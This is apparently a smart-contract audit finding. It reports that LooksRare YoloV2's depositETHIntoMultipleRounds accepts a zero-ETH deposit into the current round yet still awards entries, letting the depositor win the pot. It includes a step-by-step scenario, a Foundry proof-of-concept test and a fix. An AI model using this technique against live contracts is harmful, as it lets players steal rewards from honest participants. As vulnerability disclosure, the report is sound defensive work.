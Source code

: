 Mysterious Seafoam Huskie

high

# User can deposit 0 ETH into a round and win the rewards

## Summary
User can deposit 0 ETH into a round and win the rewards, because [depositETHIntoMultipleRounds()](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312) function does not check if user's `entriesCount` is 0.

## Vulnerability Detail
User can call **depositETHIntoMultipleRounds()** function to deposit ETH into multiple rounds. This function will first check if `msg.value` is not 0:
```solidity
        if (msg.value == 0 || numberOfRounds == 0) {
            revert ZeroDeposits();
        }
```
Then, ETH will be deposited into the current round and upcoming rounds:
```solidity
        for (uint256 i; i < numberOfRounds; ++i) {
            uint256 roundId = _unsafeAdd(startingRoundId, i);
            Round storage round = rounds[roundId];
            uint256 roundValuePerEntry = round.valuePerEntry;
            if (roundValuePerEntry == 0) {
                (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
            }

            _incrementUserDepositCount(roundId, round);

            uint256 depositAmount = amounts[i];
            if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;

            entriesCounts[i] = entriesCount;
        }
```
However, it does not check if the deposited ETH amount is 0 in each round:
```solidity
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;
```
but only check if the total deposited amount equals to `msg.value`:
```solidity
        if (expectedValue != msg.value) {
            revert InvalidValue();
        }
```
User can exploit this and deposit 0 ETH into the current round and win the rewards. Imagine the following scenario:
1. Alice deposit **0.02** ether into the current round, `currentEntryIndexArray` is **[2]**;
2. Bob calls **depositETHIntoMultipleRounds()** with arguments **[0, 0.01 ether]**;
3. **0**  ETH is deposited into the current round and **0.01** ETH is deposited into the next round, so`currentEntryIndexArray` becomes **[2, 2]**;
4. Chainlink VRF is called, when the random number is returned to [fulfillRandomWords()](https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1270) function, we can know Bob will be chosen as the winner  if `winningEntry` is **2**.

In the example above, Bob has a 50% probability to be chosen as the winner, in fact, Bob can call **depositETHIntoMultipleRounds()** function multiple times to increase his chances of winning dramatically.

Please run the test codes to verify:
```solidity
    function test_audit_deposit_0_to_win() public {
        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");

        vm.deal(alice, 0.02 ether);
        vm.deal(bob, 0.01 ether);

        // Alice deposit 0.02 ether into current round
        vm.prank(alice);
        yolo.deposit{value: 0.02 ether}(1, _emptyDepositsCalldata());

        // Bob deposit 0 ether into current round and 0.01 ether into next round
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 0;
        amounts[1] = 0.01 ether;
        vm.prank(bob);
        yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);

        uint256 currentTime = block.timestamp + ROUND_DURATION;
        vm.warp(currentTime);

        // drawn winner
        yolo.drawWinner();

        // fulfill VRF request to choose the winner 
        vm.prank(VRF_COORDINATOR);
        uint256[] memory randomWords = new uint256[](1);
        uint256 randomWord = 123;
        randomWords[0] = randomWord;
        yolo.rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        (
            ,
            ,
            ,
            ,
            ,
            ,
            address winner,
            ,
            ,
        ) = yolo.getRound(1);

        // Bob is the winner
        assertEq(bob, winner);
    }
```

## Impact
User can cheat in the game by depositing 0 ETH to win rewards, the fairness is undermined and honest users have no chance to earn rewards.

## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L341-L342

## Tool used
Manual Review

## Recommendation
In **depositETHIntoMultipleRounds()** function, check if is `entriesCount` is 0 in each deposited round:
```diff
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
+           if (entriesCount == 0) {
+               revert InvalidValue();
+           }
            expectedValue += depositAmount;
```